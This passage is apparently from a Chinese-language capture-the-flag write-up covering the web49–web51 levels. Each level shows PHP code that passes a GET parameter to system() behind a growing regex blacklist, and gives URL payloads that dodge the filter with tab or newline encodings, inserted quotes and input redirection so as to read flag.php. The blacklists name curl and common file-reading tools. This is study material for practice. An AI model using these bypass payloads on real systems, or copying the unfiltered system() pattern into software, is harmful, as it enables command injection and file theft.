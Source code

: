 多过滤了一些读取函数。

payload:

```
?c=tac%09fla?.php%0a

?c=tac<fla''g.php%0a
```

## web49~多过滤反引号

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

多过滤反引号。

payload 同上关一样。

## web50~多过滤% x09 x26

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

多过滤 `%` 、 `09` 、`26`

```
?c=tac<fla''g.php%0a

?c=tac<>fla\g.php%0a
```

## web51~多过滤tac
